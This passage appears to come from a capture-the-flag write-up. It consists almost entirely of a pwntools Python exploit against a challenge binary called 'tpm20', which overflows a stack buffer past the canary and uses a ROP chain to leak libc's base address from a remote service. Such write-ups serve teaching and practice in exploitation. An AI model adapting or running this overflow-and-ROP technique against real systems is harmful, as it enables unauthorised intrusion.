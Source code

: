 ### Exploit code

```python
#!/usr/bin/env python2

from pwn import *

context(os='linux', arch='x86_64')

tpm20 = ELF('./tpm20')
libc = ELF('./libc.so.6')

#p = process(argv=['/home/andrea/ld-2.23.so', '--library-path', './lib', './tpm20_patch'])
p = remote('10.133.70.5', 4500)

def pcrs_ret(data):
    assert ',' not in data
    data_sane = data.replace('\x00', '%')

    # Each PCR outputs 47 + len(tok) bytes
    # Buffer size = 2048
    # Canary @ buffer+0x808
    # Retaddr @ buffer+0x818
    # '0' 42 times -> size = 0x7e0 < 2048
    # 'A'*4 (= 0) -> size = 0x813 > 2048
    # Next print is "PCR <num>: ..."
    # <num> is at buffer+0x817 -> retaddr-1
    # We prefix with A in order to:
    #   - make atoi return 0 (valid PCR)
    #   - get to retaddr
    return ['0']*42 + ['A'*4, 'A' + data_sane]

def menu(choice):
    p.recvuntil('> ')
    p.sendline(str(choice))

def list_pcrs(pcrs, final=False):
    pcrs_str = ','.join(pcrs)
    assert len(pcrs_str) <= 255

    menu(1)
    p.recvuntil('Which PCRs do you wanna read?\n')
    p.send(pcrs_str.ljust(256, '\x00'))

    if not final:
        output = p.recvuntil('\nWelcome')[:-len('\nWelcome')]
        return output

def do_rop(chain, *args, **kwargs):
    return list_pcrs(pcrs_ret(chain), *args, **kwargs)

MAIN = 0x401011
POP_RDI = 0x401153

prog = log.progress('Leaking libc')
buf  = p64(POP_RDI)
buf += p64(tpm20.got['read'])
buf += p64(tpm20.plt['puts'])
buf += p64(MAIN)
leak = do_rop(buf)[-7:-1]
libc_base = u64(leak + '\x00\x00') - libc.symbols['read']
prog.success('@ 0x{:012x}'.format(libc_base))

```